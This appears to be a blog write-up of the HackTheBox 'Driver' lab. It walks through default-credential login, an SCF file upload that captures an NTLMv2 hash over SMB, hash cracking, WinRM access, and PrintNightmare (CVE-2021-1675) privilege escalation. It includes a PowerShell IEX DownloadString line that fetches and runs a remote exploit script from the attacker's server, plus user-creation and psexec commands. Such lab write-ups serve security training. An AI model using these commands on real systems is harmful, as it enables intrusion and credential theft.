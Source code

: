 ```yaml
---
title: Driver
date: 2023-12-13
categories: [CTF, HackTheBox]
tags: [easy, windows, scf, hash, cracking, winrm, spoolsv, cve]
img_path: /assets/img/htb/Driver
image: 
    path: driver.png
    lqip: data:image/webp;base64,L2Fzc2V0cy9pbWcvaHRiL0RyaXZlci9kcml2ZXIucG5n
    alt: Machine Info Card
---
```


## About Driver

Driver is an easy Windows machine that focuses on printer exploitation. Enumeration of the machine reveals that a web server is listening on port 80, along with SMB on port 445 and WinRM on port 5985. Navigation to the website reveals that it's protected using basic HTTP authentication. While trying common credentials the `admin:admin` credential is accepted and we are able to visit the webpage. The webpage provides a feature to upload printer firmwares on an SMB share for a remote team to test and verify. Uploading a `Shell Command File` that contains a command to fetch a remote file from our local machine, leads to the NTLM hash of the user `tony` relayed back to us. Cracking the captured hash to retrieve a plaintext password we are able login as `tony`, using WinRM. Then, switching over to a meterpreter session it is discovered that the machine is vulnerable to a local privilege exploit that abuses a specific printer driver that is present on the remote machine. Using the exploit we can get a session as `NT AUTHORITY\SYSTEM`.

## Recon

### Open Ports

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.129.95.238 -oN allports
```

![Nmap Scan](allports.png)
_Nmap Scan all TCP Ports_

### Service Detection

```bash
nmap -p80,135,445,5985 -sC -sV 10.129.95.238 -oN services
```

![Nmap Scan](services.png)
_Nmap Scan Default Scripts & Versions_

### SMB Basic Enumeration

Just to know more information about the target, we will run `crackmapexec` to see the Windows version and `smbclient` to see if we can enumerate shares using a null session.

![SMB](smb.png)
_Crackmapexec & SMBClient_

Since there is no useful info we will continue with other services.

## Shell as tony

In the `nmap` results we have a user disclosure, this can also be found by either looking at the technologies of the website or its headers:

![Headers](headers.png)
_Technologies & Headers_

Using the browser we are shown a login panel in which we are going to test common passwords for the **admin** user that we found before.

![Login](login.png)
_Testing default credentials_

**admin:admin** is valid for this service, so now we have to enumerate a litle bit more:

![Dashboard](welcome.png)
_Logged in as admin_

This is the only resource of the web page that works and it allow us to upload a file. The interesting part is the text highlighted on the image below. It says the firmware will be uploaded to a file share and there is a testing team which reviews the uploads manually and tests them. We can start thinking about possible ways to abuse this review because if since there are using an SMB share, we could create a malicious **scf (Shell Command File)** file that loads an icon from our server. Since **Windows** requires authentication when looking for a resource, we will get the **NTLMv2** hash of the user performing the testing.

![Firmware Update](firmup.png)
_Firmware Updates_

>SCF files are helpful to pentesters since they let you to provide the location to a **.ico** file from within the file. While loading an icon file by itself might not be all that helpful, the route used to load the file might link to a remote server via a **UNC path**, which means we could leverage SCF files to collect NTLMv2 hashes.
{: .prompt-info }

### Using SCF Files to Gather hashes

Here is a [blog](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication#execution-via-.scf) that explains more about this technique. We are going to create the **file.scf** with the content shown below:

```
[shell]
Command=2
IconFile=\\{YOUR-IP}\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
{: file="file.scf" }

![SCF File](file.png)
_Shell Script File_

After creating our **scf** file, we have to start an **SMB server**. To achieve that we are going to use `impacket-smbserver` using the following command:

```bash
impacket-smbserver share $(pwd) -smb2support
```

![SMB Server](setsmb.png)
_Impacket SMB Server_

Since our **SMB server** is up we just have to upload the **file.scf** that has the instructions to load an icon from our server. When the file is open it will go to our server asking for the resource and sending the user's hash in the request.

![SCF File Upload](upload.png)
_SCF File Upload_

![Hash](hash.png)
_Tony's NTLMv2 hash_

### Cracking NTLMv2 Hash

We get a hash for the user **tony**, so then we have to crack it. In this case we are going to use `john` and the syntax is here:

![Tony's Password](pass.png)
_Tony's Password_

### Gaining Access

Remember that in the `nmap` results we found **SMB** and **WinRM** running on the target machine. So we can use `crackmapexec` to check if the password works for **winrm** so we can use the credential to access the target.

![Crackmapexec](cme.png)
_Valid Winrm credential_

When you see that **Pwn3d!** text next to the service it means we can log in using that credentials. Since the service is **WinRM** we are going to use `evil-winrm` to get a `powershell` instance on the box:

![Evil-Winrm](winrm.png)
_Evil WinRM_

## Privilege Escalation - CVE-2021-1675

One of possible ways to elevate your privileges on a Windows machine is to abuse the processes running on that target. In this specific box we can notice that **spoolsv** process is available. After a simple search we can found a vulnerability on this process.

![Processes](ps.png)
_Running Processes_

The [CVE-2021-1675](https://www.helpnetsecurity.com/2021/06/30/poc-cve-2021-1675/) is a critical vulnerability found in **Windows Print Spooler** service which allows remote code execution. To exploit this vulnerability we are going to use this [GitHub Repository](https://github.com/calebstewart/CVE-2021-1675) that will create a user and add it to the **Administrators** group.

![Exploit](pwsh.png)
_PrintNightmare Exploit_

After downloading the **ps1** script and setting our http server, we have to run this instruction in the target machine to access our http server and interpret the script.

```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.20/CVE-2021-1675.ps1')
```

![HTTP Server](pyserver.png)
_Python HTTP Server_

Here we can see that there is only one user, after interpret the script the instructions will be set and we can follow the instructions of the exploit. We have to call the `Invoke-Nightmare` function and create our user with its password. Here is the command you have to run:

```powershell
Invoke-Nightmare -DriverNamme "Xerox" -NewUser "flygerth" -NewPassword "pwned"
```

![Adding User](newuser.png)
_Adding a new user_

As shown above, after running the instruction our user will be created and if we check the groups we can notice that we are part of the **Administrators**.

![Administrators Group](check.png)
_Flygerth is an Administrator on the box_

Finally we can use `crackmapexec` one more time to check our credential and we can use `impacket-psexec` to gain access as `nt authority\system`

```bash
impacket-psexec flygerth@10.129.95.238
```

![Pwn3d](psexec.png)
_Hi! I'm System_

## Flags

- [x] user.txt

```powershell
type C:\Users\tony\Desktop\user.txt
7d8**************************3d9
```

- [x] root.txt

```powershell
type C:\Users\Administrator\Desktop\root.txt
cba**************************7f2
``` 

<h2 style="text-align:center;">Thanks for reading! 🙌 🙌 🙌</h2>
{: data-toc-skip='' .mt-4 .mb-0 }
